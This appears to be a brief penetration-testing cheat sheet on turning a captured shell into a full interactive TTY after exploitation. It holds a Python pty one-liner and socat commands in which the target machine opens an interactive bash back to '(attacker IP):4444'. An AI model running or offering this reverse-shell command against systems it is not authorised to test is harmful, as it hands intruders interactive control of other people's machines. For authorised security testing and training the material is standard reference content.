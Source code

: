 # Post Exploitation Shell Cheat Sheet
All techniques that I use each day during penetration testing are in this module.
## Upgrading shell to a TTY
This section of this module focuses on how to upgrade your nonTTY shell using various methods and resources located on the target system.
### Using Python:
To use Python to upgrade to a TTY from your spanwed shell do,

`python -c 'import pty; pty.spawn("/bin/bash")'`

### Using SOCAT:
To use Socat, first start the listener on the attacker machine with,

`socat file:`tty`,raw,echo=0 tcp-listen:4444`

Then, start the bind from the target machine with,

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:(attacker IP):4444`

### Using STTY:
`reset`

`export SHELL=bash`

`export TERM=xterm-256color`
